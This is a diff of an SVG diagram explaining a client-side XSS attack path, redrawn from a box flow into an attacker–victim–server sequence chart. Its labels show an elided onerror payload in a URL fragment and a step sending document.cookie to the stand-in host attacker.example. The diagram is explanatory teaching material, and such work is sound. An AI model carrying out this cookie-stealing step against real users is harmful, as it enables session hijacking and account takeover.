

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1320 280" width="1320" height="280" font-family="'Space Grotesk','Segoe UI',system-ui,sans-serif">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1040 552" width="1040" height="552" font-family="'Space Grotesk','Segoe UI',system-ui,sans-serif">
  <defs>
    <pattern id="grid" width="24" height="24" patternUnits="userSpaceOnUse">
      <path d="M24 0H0V24" fill="none" stroke="#21262d" stroke-width="1" opacity="0.5" />
    </pattern>
-     <marker id="arrow" markerWidth="9" markerHeight="9" refX="6.5" refY="3" orient="auto" markerUnits="strokeWidth">
+     <marker id="ar" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
      <path d="M0,0 L7,3 L0,6 Z" fill="#8b949e" />
    </marker>
-     <marker id="arrow-green" markerWidth="9" markerHeight="9" refX="6.5" refY="3" orient="auto" markerUnits="strokeWidth">
-       <path d="M0,0 L7,3 L0,6 Z" fill="#4ade80" />
+     <marker id="arRed" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
+       <path d="M0,0 L7,3 L0,6 Z" fill="#f85149" />
+     </marker>
+     <marker id="arAmber" markerWidth="9" markerHeight="9" refX="7" refY="3" orient="auto" markerUnits="strokeWidth">
+       <path d="M0,0 L7,3 L0,6 Z" fill="#d29922" />
    </marker>
  </defs>
-   <rect x="0" y="0" width="1320" height="280" fill="#0d1117" />
-   <rect x="0" y="0" width="1320" height="280" fill="url(#grid)" />
-   <text x="22" y="40" font-size="13" font-family="'JetBrains Mono',monospace" fill="#00caff" letter-spacing="1">&gt;_</text>
-   <text x="50" y="42" font-size="20" font-weight="700" fill="#e6edf3">Reflected XSS (Client-Side) - Attack Path</text>
-   <circle cx="852" cy="36" r="5" fill="#f85149" />
-   <text x="864" y="40" font-size="12" fill="#8b949e">vulnerable step</text>
-   <circle cx="992" cy="36" r="5" fill="#f97316" />
-   <text x="1004" y="40" font-size="12" fill="#8b949e">impact</text>
-   <circle cx="1092" cy="36" r="5" fill="#4ade80" />
-   <text x="1104" y="40" font-size="12" fill="#8b949e">goal</text>
-   <g stroke-width="1.5">
-     <line x1="160" y1="162" x2="179" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="322" y1="162" x2="341" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="484" y1="162" x2="503" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="646" y1="162" x2="665" y2="162" stroke="#f85149" marker-end="url(#arrow)" />
-     <line x1="808" y1="162" x2="827" y2="162" stroke="#f97316" marker-end="url(#arrow)" />
-     <line x1="970" y1="162" x2="989" y2="162" stroke="#8b949e" marker-end="url(#arrow)" />
-     <line x1="1132" y1="162" x2="1151" y2="162" stroke="#4ade80" marker-end="url(#arrow-green)" />
-   </g>
-   <rect x="20" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#00caff" stroke-width="1.5" />
-   <text x="90" y="167" text-anchor="middle" font-size="14" font-weight="700" fill="#5cd6f7">Attacker</text>
-   <rect x="182" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="252" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">1. Craft link</text>
-   <text x="252" y="177" text-anchor="middle" font-size="11" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">#&lt;img onerror&gt;</text>
-   <rect x="344" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="414" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">2. Deliver via</text>
-   <text x="414" y="177" text-anchor="middle" font-size="12" fill="#8b949e">phishing email</text>
-   <rect x="506" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="576" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">3. Victim clicks</text>
-   <text x="576" y="177" text-anchor="middle" font-size="11" fill="#8b949e">logged-in user</text>
-   <rect x="668" y="120" width="140" height="84" rx="6" fill="#1c2128" stroke="#f85149" stroke-width="2" />
-   <text x="738" y="154" text-anchor="middle" font-size="12" font-weight="600" fill="#e6edf3">4. JS reads #hash</text>
-   <text x="738" y="178" text-anchor="middle" font-size="12" font-weight="700" fill="#ff6b6b" letter-spacing="0.3">into innerHTML</text>
-   <rect x="830" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#f97316" stroke-width="1.5" />
-   <text x="900" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">5. Handler runs in</text>
-   <text x="900" y="177" text-anchor="middle" font-size="11" fill="#8b949e">victim's browser</text>
-   <rect x="992" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
-   <text x="1062" y="154" text-anchor="middle" font-size="12.5" font-weight="600" fill="#e6edf3">6. Token sent to</text>
-   <text x="1062" y="177" text-anchor="middle" font-size="11" fill="#8b949e">attacker server</text>
-   <rect x="1154" y="120" width="140" height="84" rx="6" fill="#161b22" stroke="#4ade80" stroke-width="2" />
-   <text x="1224" y="154" text-anchor="middle" font-size="11.5" font-weight="700" fill="#4ade80">7. Account takeover</text>
-   <text x="1224" y="177" text-anchor="middle" font-size="11" fill="#8b949e">session hijack</text>
-   <text x="22" y="252" font-size="12.5" fill="#6e7681">The payload rides in the URL fragment, which is never sent to the server; the page's own JavaScript reads it and writes it to innerHTML, running it in the victim's session.</text>
+   <rect x="0" y="0" width="1040" height="552" fill="#0d1117" />
+   <rect x="0" y="0" width="1040" height="552" fill="url(#grid)" />
+   <text x="22" y="34" font-size="13" font-family="'JetBrains Mono',monospace" fill="#00caff" letter-spacing="1">&gt;_</text>
+   <text x="50" y="36" font-size="19" font-weight="700" fill="#e6edf3">Reflected XSS (Client-Side) - Attack Path</text>
+   <line x1="892" y1="20" x2="916" y2="20" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="922" y="24" font-size="11" fill="#8b949e">request</text>
+   <line x1="892" y1="38" x2="916" y2="38" stroke="#8b949e" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar)" />
+   <text x="922" y="42" font-size="11" fill="#8b949e">response</text>
+   <line x1="892" y1="56" x2="916" y2="56" stroke="#f85149" stroke-width="1.5" marker-end="url(#arRed)" />
+   <text x="922" y="60" font-size="11" fill="#ff6b6b">vulnerable step</text>
+   <line x1="150" y1="110" x2="150" y2="476" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <line x1="480" y1="110" x2="480" y2="476" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <line x1="800" y1="110" x2="800" y2="476" stroke="#30363d" stroke-width="1.5" stroke-dasharray="4 5" />
+   <rect x="75" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#00caff" stroke-width="1.5" />
+   <text x="150" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#5cd6f7">Attacker</text>
+   <text x="150" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">attacker.example</text>
+   <rect x="405" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
+   <text x="480" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#e6edf3">Victim</text>
+   <text x="480" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">logged-in user</text>
+   <rect x="725" y="64" width="150" height="46" rx="6" fill="#161b22" stroke="#30363d" stroke-width="1.5" />
+   <text x="800" y="87" text-anchor="middle" font-size="14" font-weight="700" fill="#e6edf3">Server</text>
+   <text x="800" y="101" text-anchor="middle" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">docs.example</text>
+   <text x="480" y="134" text-anchor="middle" font-size="9.5" font-style="italic" fill="#6e7681">logged in to docs.example, session cookie readable by JS</text>
+   <text x="315" y="147" text-anchor="middle" font-size="11" fill="#e6edf3">1. Phishing link</text>
+   <text x="315" y="159" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">docs.example/#&lt;img src=x onerror=...&gt;</text>
+   <line x1="158" y1="166" x2="472" y2="166" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="640" y="205" text-anchor="middle" font-size="11" fill="#e6edf3">2. GET / (the #fragment is NOT sent)</text>
+   <text x="640" y="217" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">Cookie: session=...</text>
+   <line x1="488" y1="224" x2="792" y2="224" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="812" y="220" font-size="9" font-family="'JetBrains Mono',monospace" fill="#8b949e">server never sees the payload</text>
+   <text x="640" y="275" text-anchor="middle" font-size="11" fill="#e6edf3">3. 200 OK: static page (no reflection)</text>
+   <line x1="792" y1="282" x2="488" y2="282" stroke="#8b949e" stroke-width="1.5" stroke-dasharray="5 3" marker-end="url(#ar)" />
+   <rect x="340" y="332" width="280" height="50" rx="6" fill="#1c2128" stroke="#f85149" stroke-width="1.5" />
+   <text x="480" y="353" text-anchor="middle" font-size="10.5" font-weight="600" fill="#e6edf3">JS reads location.hash into innerHTML</text>
+   <text x="480" y="369" text-anchor="middle" font-size="9" fill="#8b949e">the &lt;img onerror&gt; payload runs (DOM sink)</text>
+   <text x="315" y="395" text-anchor="middle" font-size="11" fill="#e6edf3">4. GET attacker.example/?c=...</text>
+   <text x="315" y="407" text-anchor="middle" font-size="9.5" font-family="'JetBrains Mono',monospace" fill="#a0e9ff">c = document.cookie (session)</text>
+   <line x1="472" y1="414" x2="158" y2="414" stroke="#8b949e" stroke-width="1.5" marker-end="url(#ar)" />
+   <text x="22" y="502" font-size="12.5" fill="#6e7681">The server returns a static page and never sees the fragment; the page's own JavaScript writes the URL into innerHTML, so the bug is client-side.</text>
+   <text x="22" y="520" font-size="12.5" fill="#6e7681">It is fixed in the client code, but the result is still <tspan fill="#4ade80" font-weight="700">account takeover</tspan>.</text>
</svg>
